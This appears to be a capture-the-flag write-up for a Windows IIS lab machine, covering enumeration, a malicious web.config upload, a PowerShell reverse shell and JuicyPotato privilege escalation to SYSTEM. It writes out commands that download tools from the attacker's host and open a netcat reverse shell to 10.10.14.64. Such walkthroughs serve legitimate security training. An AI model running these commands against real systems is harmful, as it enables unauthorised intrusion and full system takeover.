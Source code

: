 # Recon

I do my initial scan to see which ports are open.

## nmap
```
# Nmap 7.92 scan initiated Thu Aug 11 19:14:08 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv bounty.htb
Nmap scan report for bounty.htb (10.129.83.203)
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2022-08-11 19:14:08 CDT for 27s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Aug 11 19:14:35 2022 -- 1 IP address (1 host up) scanned in 26.61 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Thu Aug 11 19:16:17 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 80 bounty.htb
Nmap scan report for bounty.htb (10.129.83.203)
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2022-08-11 19:16:17 CDT for 8s

PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 11 19:16:25 2022 -- 1 IP address (1 host up) scanned in 8.33 seconds
```

I also ran a UDP scan, vuln scan and fuzzed for subdomains but didn't get much back, so it looks like we are working with Microsoft IIS httpd 7.5 on port 80.

# Enumeration

## Nikto

There really wasn't much from Nikto, although I did make note of the x-aspnet-version header as I thought this could be helpful for later.

```
- Nikto v2.1.6/2.1.5
+ Target Host: bounty.htb
+ Target Port: 80
+ GET Retrieved x-powered-by header: ASP.NET
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Retrieved x-aspnet-version header: 2.0.50727
+ OPTIONS Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ OPTIONS Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
```

## Feroxbuster

`feroxbuster -u http://bounty.htb -x asp,aspx,txt -o scan.txt -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt`

Feroxbuster discovered an important page: `/transfer.aspx`

```
200      GET       32l       53w      630c http://bounty.htb/
200      GET       32l       53w      630c http://bounty.htb/
301      GET        2l       10w      155c http://bounty.htb/aspnet_client => http://bounty.htb/aspnet_client/
403      GET       29l       92w     1233c http://bounty.htb/aspnet_client/
200      GET       22l       58w      941c http://bounty.htb/transfer.aspx
301      GET        2l       10w      155c http://bounty.htb/uploadedfiles => http://bounty.htb/uploadedfiles/
403      GET       29l       92w     1233c http://bounty.htb/uploadedfiles/
```

## Website

We are greeted with Merlin. Running `binwalk` and `steghide` against this image was not helpful.

![c7db5922379f00c11633ca28283f47c1.png](../_resources/c7db5922379f00c11633ca28283f47c1.png)

Looking at `/transfer.aspx`, we see there is a form to upload files. When testing this form, we find that it rejects a number of file extensions except for images -- such as `.png` and `.jpg`. Injecting a payload into an image file using msfvenom does not work, so I end up coming across this page on Hacktricks which explains using `web.config` for our initial foothold.

![d08887692cb3aec0d543cecf8896eb16.png](../_resources/d08887692cb3aec0d543cecf8896eb16.png)

I found a GitHub repo with a malicious `web.config` which returns a web shell although unfortunately I was not able to get a reverse shell back for some reason.

https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config
![292c454b1f98f3b2d559284b876ef34e.png](../_resources/292c454b1f98f3b2d559284b876ef34e.png)

After a bit more digging, I come across a different `web.config`:
https://raw.githubusercontent.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/master/web.config

I'll give this a try so I edit the `web.config` and make sure `Invoke-PowerShellTcp.ps1` is also modified to catch my reverse shell.
![8b31896944a5ba7ec4717bf7fe0f06a8.png](../_resources/8b31896944a5ba7ec4717bf7fe0f06a8.png)

`Invoke-PowerShellTcp.ps1`:
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
![7d24cd584ae9000612619403f2ddd792.png](../_resources/7d24cd584ae9000612619403f2ddd792.png)

Start my python http server for `Invoke-PowerShellTcp.ps1` to be downloaded to the victim...
![b55bbd9df43e5eaf9cab2e7b2d97c16f.png](../_resources/b55bbd9df43e5eaf9cab2e7b2d97c16f.png)

And start nc to catch the reverse shell from Bounty.
![rshell.png](../_resources/rshell.png)

After uploading the malicious `web.config` and visiting `http://bounty.htb/Uploadedfiles/web.config`, we get a shell back as `bounty\merlin`. When checking current privileges for the service account with `whoami /priv` we that it looks like `SeImpersonatePrivilege` is enabled. From previous boxes, I know that when we get a shell back as a service account with this privilege enabled, that Juicy Potato might be a good privilege escalation tool.

I'll download Netcat and JuicyPotato to the box using the following command `IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.64:9999/JuicyPotato.exe', 'C:\windows\temp\jp.exe')`

![jpandnc.png](../_resources/jpandnc.png)

I will use the following Juicy Potato command to achieve privilege escalation to SYSTEM.

`.\jp.exe -l 1234 -p "C:\Windows\System32\cmd.exe" -a "/c c:\windows\temp\nc64.exe -e cmd.exe 10.10.14.64 7331" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`

Information about the flags that were used can be found from JP documentation, although I will briefly explain:

`-l 1234`: Use arbitrary DCOM port 1234.

`-p "C:\Windows\System32\cmd.exe"`: Tell JP to use `cmd.exe` as the main program for this.

`-a "/c c:\windows\temp\nc64.exe -e cmd.exe 10.10.14.64 7331"`: This is the command that should be passed to `-p` which in our case is `cmd.exe`. To be specific, we are telling `cmd.exe` to execute `nc64.exe` with elevated privileges and execute our reverse shell which we will catch on a new netcat instance listening on port 7331.

`-t *` try both `createprocess` calls (`<t> CreateProcessWithTokenW, <u> CreateProcessAsUser)`

`-c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`: This is the CLSID I found from JP's documentation here (Note: it took a few tries to find a CLSID that worked):
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

And we are now SYSTEM!

![9c42e00a91650fb814fe9d1592c60bfa.png](../_resources/9c42e00a91650fb814fe9d1592c60bfa.png)

For some reason the `user.txt` flag for `merlin` was hidden which was a little confusing, but I ran `dir /A` to show all files to see that it exists. Other than that, we collect our loot as normal and move on to the next box! :)

![0ab77d3a3cff4cf5edfbe0b695b3c3d5.png](../_resources/0ab77d3a3cff4cf5edfbe0b695b3c3d5.png)

![flags.png](../_resources/flags.png)




